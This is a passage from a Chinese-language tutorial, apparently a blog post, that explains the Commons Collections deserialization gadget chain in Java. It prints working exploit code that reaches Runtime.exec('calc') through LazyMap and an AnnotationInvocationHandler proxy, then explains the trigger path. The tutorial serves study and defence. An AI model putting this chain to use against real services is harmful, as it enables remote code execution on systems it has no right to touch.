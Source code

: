 ```
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        final Map innerMap = new HashMap();
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
        final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
        final Map testMap = new HashMap();
        Map evilMap = (Map) Proxy.newProxyInstance(
                testMap.getClass().getClassLoader(),
                testMap.getClass().getInterfaces(),
                secondInvocationHandler
        );
        final Constructor<?> ctor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        final InvocationHandler handler = (InvocationHandler) ctor.newInstance(Override.class, evilMap);
        byte[] serializeData=serialize(handler);
        unserialize(serializeData);
    }
}
```

可以看到其中有两个`AnnotationInvocationHandler`实例，第一个实例做成了一个动态代理`evilMap`，这时候我们执行`evilMap`的任意方法都会去自动调用`invoke()`中的`this.memberValues.get()`，而为了能够自动执行`evilMap`的任意方法，我们通过反射new了一个实例`handler`，此时我们对其进行序列化操作，其会自动执行`readObject()`中的`this.memberValues.entrySet()`从而触发`invoke()`造成命令执行

![6.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/8ce14f2d-544d-c200-8ec1-895c1022e944.png)

# 参考链接
1. https://www.anquanke.com/post/id/230788
2. http://wjlshare.com/archives/1502

